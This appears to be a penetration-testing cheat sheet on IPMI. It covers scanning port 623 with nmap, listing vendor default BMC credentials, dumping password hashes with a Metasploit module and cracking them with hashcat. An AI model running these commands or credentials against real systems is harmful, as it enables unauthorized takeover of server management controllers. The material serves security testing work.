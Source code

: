 ## IPMI

Intelligent Platform Management Interface (IPMI) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring. It acts as an autonomous subsystem and works independently of the host's BIOS, CPU, firmware, and underlying operating system.

### Footprinting the Service

**NMAP**
````
$ sudo nmap -sU --script ipmi-version -p 623 <IP>
````
During internal penetration tests, we often find BMCs where the administrators have not changed the default password. Some unique default passwords to keep in our cheatsheets include:
| Product          | Username   | Password                                               |
|:------------------------:|:----------------:|:-------------------------------------------------------------:|
| Dell iDRAC             | root           | calvin                                                      |
| HP iLO                 | Administrator  | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI        | ADMIN          | ADMIN                                                       |

**Metasploit Dumping Hashes**
````
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts <IP>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
````
**Crack Hash**
````
echo "a0a113d8820000005cd66e:6f9686237cad0f01033f11247abafb272d888fe6" > hash2
hashcat hash2 /usr/share/wordlists/rockyou.txt
````


